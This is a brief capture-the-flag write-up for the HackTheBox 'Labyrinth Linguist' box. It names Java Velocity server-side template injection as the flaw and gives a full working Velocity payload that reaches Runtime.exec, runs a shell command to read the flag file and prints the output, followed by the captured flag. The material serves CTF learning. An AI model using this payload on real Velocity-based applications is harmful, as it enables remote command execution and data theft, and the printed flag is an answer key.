

# OREXIMUS NOTES

## BOX NAME: Labyrinth Linguist

### Main Vulnerability: Java Velocity SSTI

- Allows us to execute command through it!

**Payload Used**:

```
#set($s="")
#set($stringClass=$s.getClass())
#set($stringBuilderClass=$stringClass.forName("java.lang.StringBuilder"))
#set($inputStreamClass=$stringClass.forName("java.io.InputStream"))
#set($readerClass=$stringClass.forName("java.io.Reader"))
#set($inputStreamReaderClass=$stringClass.forName("java.io.InputStreamReader"))
#set($bufferedReaderClass=$stringClass.forName("java.io.BufferedReader"))
#set($collectorsClass=$stringClass.forName("java.util.stream.Collectors"))
#set($systemClass=$stringClass.forName("java.lang.System"))
#set($stringBuilderConstructor=$stringBuilderClass.getConstructor())
#set($inputStreamReaderConstructor=$inputStreamReaderClass.getConstructor($inputStreamClass))
#set($bufferedReaderConstructor=$bufferedReaderClass.getConstructor($readerClass))

#set($runtime=$stringClass.forName("java.lang.Runtime").getRuntime())
#set($process=$runtime.exec("cat  /flagcf32a504be.txt"))
#set($null=$process.waitFor() )

#set($inputStream=$process.getInputStream())
#set($inputStreamReader=$inputStreamReaderConstructor.newInstance($inputStream))
#set($bufferedReader=$bufferedReaderConstructor.newInstance($inputStreamReader))
#set($stringBuilder=$stringBuilderConstructor.newInstance())

#set($output=$bufferedReader.lines().collect($collectorsClass.joining($systemClass.lineSeparator())))

$output
```

- Which outputted the **flag.txt**

**flag.txt**:

```
HTB{f13ry_t3mpl4t35_fr0m_th3_d3pth5!!}
```

**Screenshot**:



- Resources:
